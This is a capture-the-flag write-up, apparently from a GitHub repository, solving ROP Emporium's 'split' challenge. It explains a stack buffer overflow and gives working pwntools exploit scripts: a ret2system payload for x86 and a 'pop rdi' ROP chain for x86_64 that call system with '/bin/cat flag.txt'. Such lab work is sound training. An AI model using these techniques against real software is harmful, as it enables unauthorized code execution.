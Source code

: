 # split x86 [Pwn]

- x86

Link : [split x86](https://ropemporium.com/challenge/split.html)

Binary : [split x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/split32.zip)


## Vulnerability Analysis and Exploitation

In the `pwnme` function, the program accepts an input string of up to `96 bytes`, while the size of the buffer `s` is limited to `40 bytes`. This allows for a buffer overflow, enabling us to overwrite critical registers and redirect the program's execution flow to another piece of code or program.

![pwnme](data/pwnme.png)

Imported Functions

Here is the list of imported functions:

![Imported](data/Imported.png)

We notice the presence of the `system` function, which is very useful for executing system commands.

Additionally, the binary contains the following interesting string:
`/bin/cat flag.txt`

![Strings](data/Strings.png)

Our goal is to exploit the vulnerability to call the `system` function with `/bin/cat flag.txt` as the argument, which will allow us to display the contents of the `flag.txt` file.

## Exploitation Plan

To call `system` with an argument in a 32-bit binary, we need to:

1. Push the address of the `system` function onto the stack.
2. Provide the necessary arguments (in this case, the address of the string `/bin/cat flag.txt`).

The stack layout should look like this:

```
Address of system  
(4 bytes)  
Address of "/bin/cat flag.txt"  
```

#### Key Information

- Address of system: 0x80483e0
- Address of the string /bin/cat flag.txt: 0x0804A030

![system](data/system.png)

![system](data/bincat.png)

## Calculating the Offset

Before redirecting the execution flow, we need to determine the exact offset required to reach the EIP register from the start of the buffer. We use `gdb` for this purpose.

Here’s an example output:

![gdb0](data/gdb0.png)

![gdb0](data/eip.png)

Now we know that the offset to reach EIP is 44 bytes (replace with the actual value).

Exploit

Using the calculated offset, we can construct our payload:

1. Fill the buffer up to the offset.
2. Add the address of the system function.
3. Add a dummy value (useful only for certain contexts where a return value is required).
4. Add the address of the string /bin/cat flag.txt.

Here’s an example payload:

```py

from pwn import *

sh = process("./split32")
print(sh.recv().decode())

payload = b"A" * 44        # Tthe offset  
payload += p32(0x80483e0)  # Address of system  
payload += b"JUNK"         # Dummy value  
payload += p32(0x0804A030) # Address of "/bin/cat flag.txt"  

sh.sendline(payload)
sh.interactive()
```

- x86-x64


For x86_64 architecture, the function calling convention is different. Instead of pushing arguments onto the stack, we load the argument's address into the RDI register using a gadget like `pop rdi; ret`, and then call the function.

#### Key Details

- Offset to RIP: 40 bytes
- Address of `system@plt`: `0x400560`
- Address of `/bin/cat flag.txt`: `0x00601060`
- Gadget for `pop rdi; ret`: Locate this gadget in the binary (e.g., using `ROPgadget` or `ROPg` tools).

#### Exploitation Plan

- Overwrite the buffer to control the `RIP`.
- Use the `pop rdi; ret` gadget to load the address of `/bin/cat flag.txt` into `RDI`.
- Redirect execution to `system@plt` by overwriting `RIP`.

Exploit Payload

```py
from pwn import *

sh = process("./split")
print(sh.recv().decode())

payload  = b"A"*(40) 
payload += p64(0x004007c3) # pop rdi ; ret
payload += p64(0x00601060) # "/bin/cat flag.txt"
payload += p64(0x00400560) # system@plt

sh.sendline(payload)
sh.interactive()
```
